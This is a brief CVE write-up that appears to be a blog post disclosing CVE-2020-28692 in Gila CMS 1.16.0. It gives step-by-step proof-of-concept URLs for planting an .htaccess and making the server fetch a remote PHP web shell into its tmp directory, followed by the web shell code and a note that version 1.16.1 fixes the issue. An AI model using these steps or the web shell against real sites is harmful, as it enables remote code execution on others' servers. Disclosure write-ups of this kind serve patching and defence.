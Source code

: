 ```yaml
---
layout: post
title:  "Gila-CMS-1.16.0-shell-upload (CVE-2020-28692)"
date:   2020-11-17

categories: Writeup, CVE
---
```


Author: jkana

# POC
1.Login as administrator or any users have logs permission

2.Access to **http://IP/admin/fm?f=tmp/** . For example:
```http://192.168.0.105:1234/gila16/admin/fm?f=tmp/```

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/1.JPG)

3.Click **+File** and create **.htaccess**:

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/2.JPG)

4.Use this URL for downloading shell to gila's tmp directory **http://IP/lzld/thumb?size=600&src=SHELL_URL** .For example:
```http://192.168.0.105:1234/gila16/lzld/thumb?size=600&src=http://192.168.0.105:1234/files/shell.php```

5.We can check shell name with **http://IP/admin/fm?f=tmp/**

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/3.JPG)

6.Access to webshell and got RCE!

![](https://github.com/jkana/Gila-CMS-1.16.0-shell-upload/raw/main/Images/4.JPG)

# How to fix

Update to **Gila CMS 1.16.1**

# shell.php
```
<?php
$output = shell_exec('ipconfig');
echo "<pre>$output</pre>";
?>
```

